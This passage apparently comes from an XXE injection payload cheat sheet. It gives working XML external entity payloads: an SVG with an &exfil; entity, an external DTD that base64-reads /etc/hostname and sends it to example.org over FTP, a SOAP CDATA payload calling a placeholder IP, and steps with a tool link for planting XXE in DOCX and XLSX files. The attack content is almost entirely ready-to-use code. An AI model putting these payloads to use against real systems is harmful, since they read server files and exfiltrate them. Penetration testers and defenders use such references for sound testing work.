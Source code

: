 ```xml
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

_xxe.xml_

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

### XXE inside SOAP

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

- /\_rels/.rels
- [Content_Types].xml
- Default Main Document Part
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`

Tool : https://github.com/BuffaloWill/oxml_xxe

```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

### XXE inside XLSX file

Structure of the XLSX:

```
$ 7z l xxe.xlsx
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00 .....          578          223  _rels/.rels
2021-10-17 15:19:00 .....          887          508  xl/workbook.xml
2021-10-17 15:19:00 .....         4451          643  xl/styles.xml
2021-10-17 15:19:00 .....         2042          899  xl/worksheets/sheet1.xml
2021-10-17 15:19:00 .....          549          210  xl/_rels/workbook.xml.rels
2021-10-17 15:19:00 .....          201          160  xl/sharedStrings.xml
2021-10-17 15:19:00 .....          731          352  docProps/core.xml
2021-10-17 15:19:00 .....          410          246  docProps/app.xml
2021-10-17 15:19:00 .....         1367          345  [Content_Types].xml
```